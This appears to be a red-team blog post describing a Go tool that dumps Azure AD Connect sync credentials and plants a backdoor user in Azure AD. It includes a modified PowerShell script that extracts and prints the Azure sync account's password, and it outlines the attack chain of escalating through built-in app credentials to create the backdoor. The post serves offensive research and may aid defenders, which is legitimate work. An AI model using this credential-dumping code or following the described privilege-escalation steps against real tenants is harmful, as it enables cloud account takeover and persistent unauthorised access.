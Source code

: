 ```yaml
---
title: "AzureADSync BackDoor"
date: 2020-05-28T08:53:31-05:00
draft: false
toc: false
images:
tags:
  - Golang
  - Azure
  - AzureAD
---
```


Recently created a golang binary that dumps credentials from the AD Sync Server and creates a user in azure and assigns it to any group in AzureAD you like. Check out the work done by Adam Chester and Dirk-jan at the following links below as this could have not been possible without their hard work and research. Seriously read those both as everything ive done piggybacks of them.

* [Dirk-jan's blog post](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
* [Adam Chester's blog post](https://blog.xpnsec.com/azuread-connect-for-redteam/#more)

## tldr 
Dump AD Sync creds via powershell. Used dotpeek and fiddler to reverse powershell cmdlets since they call graph api. Use those dumped creds to call api. Assign passwords to built in apps with better permissios than Sync Acc. Sign in as those apps and create backdoor.

## Dump creds?
In my test environment i ran adams powershell POC scipt and noticed it only dumped the on prem sync account credentials.
Which is fantastic as you can now perform a DC Sync attack. But my focus was on pivoting to the cloud with something a little more than user permissions. I was able to modify the script slightly by changing the following lines
```powershell
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host "[*] On Prem Credentials"
Write-Host "Domain: $($domain.Domain)"
Write-Host "Username: $($username.Username)"
Write-Host "Password: $($password.Password)"
```
to 
```powershell
$username = select-xml -Content $config -XPath "//parameter[@name='UserName']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host "[*] Credentials incoming...`n"
Write-Host "[*] Azure Credentials"
Write-Host "UserName: $($username.UserName)"
Write-Host "Password: $($password.Password)`n"

```

